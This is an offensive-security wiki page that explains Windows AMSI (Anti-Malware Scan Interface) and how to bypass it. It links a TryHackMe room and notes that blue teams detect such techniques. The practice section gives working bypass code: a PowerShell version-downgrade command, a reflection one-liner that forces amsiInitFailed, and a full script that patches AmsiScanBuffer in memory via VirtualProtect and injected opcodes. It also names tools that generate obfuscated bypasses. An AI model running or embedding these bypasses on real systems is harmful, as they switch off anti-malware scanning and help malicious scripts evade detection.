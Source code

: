 # AMSI bypass

## Theory

With the release of PowerShell, Microsoft released [AMSI (Anti-Malware Scan Interface)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). It is a runtime detection measure shipped natively with Windows and is an interface for other products and solutions.

### How it works ?

AMSI (Anti-Malware Scan Interface) is a PowerShell security feature that will allow any applications or services to integrate directly into anti-malware products. Defender instruments AMSI to scan payloads and scripts before execution inside the .NET runtime. The [CLR (Common Language Runtime)](https://learn.microsoft.com/en-us/dotnet/standard/clr) and [DLR (Dynamic Language Runtime)](https://learn.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview) are the runtimes for .NET.

AMSI is fully integrated into the following Windows components:

* User Account Control, or UAC
* PowerShell
* Windows Script Host (wscript and cscript)
* JavaScript and VBScript
* Office VBA macros

The below diagram depicts how data is dissected as it flows through the layers and what DLLs/API calls are being instrumented.\


<figure><img src="../../../.gitbook/assets/35e16d45ce27145fcdf231fdb8dcb35e.png" alt="" width="563"><figcaption></figcaption></figure>

This is important to understand the complete model of AMSI, but we can break it down into core components, shown in the diagram below.\


<figure><img src="../../../.gitbook/assets/efca9438e858f0476a4ffd777c36501a.png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
Note: AMSI is only instrumented when loaded from memory when executed from the CLR. It is assumed that if on disk MsMpEng.exe (Windows Defender) is already being instrumented.
{% endhint %}

## Practice

To find where AMSI is instrumented, we can use [InsecurePowerShell](https://github.com/cobbr/InsecurePowerShell) maintained by [Cobbr](https://github.com/cobbr) which is a GitHub fork of PowerShell with security feature removed, and compare it with an [offical PowerShell GitHub](https://github.com/PowerShell/PowerShell).

### PowerShell Downgrade

The PowerShell downgrade attack is a very low-hanging fruit that allows attackers to modify the current PowerShell version to remove security features.\
Most PowerShell sessions will start with the most recent PowerShell engine, but attackers can manually change the version with a one-liner. By "downgrading" the PowerShell version to 2.0, you bypass security features since they were not implemented until version 5.0.

{% tabs %}
{% tab title="Powershell" %}
We can simply use this command to downgrad powershell. This attacked is used in popular tools such as [Unicorn](https://github.com/trustedsec/unicorn)

```bash
PowerShell -Version 2
```

{% hint style="danger" %}
Since this attack is such low-hanging fruit and simple in technique, there are a plethora of ways for the blue team to detect and mitigate this attack.
{% endhint %}
{% endtab %}
{% endtabs %}

### PowerShell Reflection

Reflection allows a user or administrator to access and interact with .NET assemblies. It can be abused to modify and identify information from valuable DLLs.\
The AMSI utilities for PowerShell are stored in the **AMSIUtils** .NET assembly located in **System.Management.Automation.AmsiUtils**.

{% tabs %}
{% tab title="Powershell" %}
Matt Graeber published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
{% endtab %}
{% endtabs %}

### Patching AMSI

AMSI is primarily instrumented and loaded from **amsi.dll**. This dll can be abused and forced to point to a response code we want. The **AmsiScanBuffer** function provides us the hooks and functionality we need to access the pointer/buffer for the response code.\
AmsiScanBuffer is vulnerable because amsi.dll is loaded into the PowerShell process at startup; our session has the same permission level as the utility. AmsiScanBuffer will scan a "buffer" of suspected code and report it to amsi.dll to determine the response. We can control this function and overwrite the buffer with a clean return code.

{% tabs %}
{% tab title="C#" %}
At a high-level AMSI patching can be broken up into four steps,

* Obtain handle of amsi.dll
* Get process address of AmsiScanBuffer
* Modify memory protections of AmsiScanBuffer
* Write opcodes to AmsiScanBuffer

```bash
$MethodDefinition = "
    [DllImport(`"kernel32`")] // Import DLL where API call is stored
    public static extern IntPtr GetProcAddress( // API Call to import
        IntPtr hModule, // Handle to DLL module
        string procName // function or variable to obtain
    );

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(
        string lpModuleName // Module to obtain handle
    );

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(
        IntPtr lpAddress, // Address of region to modify
        UIntPtr dwSize, // Size of region
        uint flNewProtect, // Memory protection options
        out uint lpflOldProtect // Pointer to store previous protection options
    );
";
//Load the API calls
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;

//Identify where amsi.dll is located and how to get to the function
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
);

//Modify the memory protection of the AmsiScanBuffer process region.
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 

//Overwrite the buffer
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```
{% endtab %}
{% endtabs %}

### AMSI Bypass Tools

While it is preferred to use the previous methods shown, attackers can use other automated tools to break AMSI signatures or compile a bypass.

{% tabs %}
{% tab title="AMSI.Fail" %}
[amsi.fail](https://amsi.fail/) will compile and generate a PowerShell bypass from a collection of known bypasses.\
From amsi.fail, "AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before obfuscating. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures."
{% endtab %}

{% tab title="AMSITrigger" %}
[AMSITrigger](https://github.com/RythmStick/AMSITrigger) allows attackers to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because you are making the file itself clean.

```bash
C:\Users\v4resk\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/runtimedetectionevasion" %}
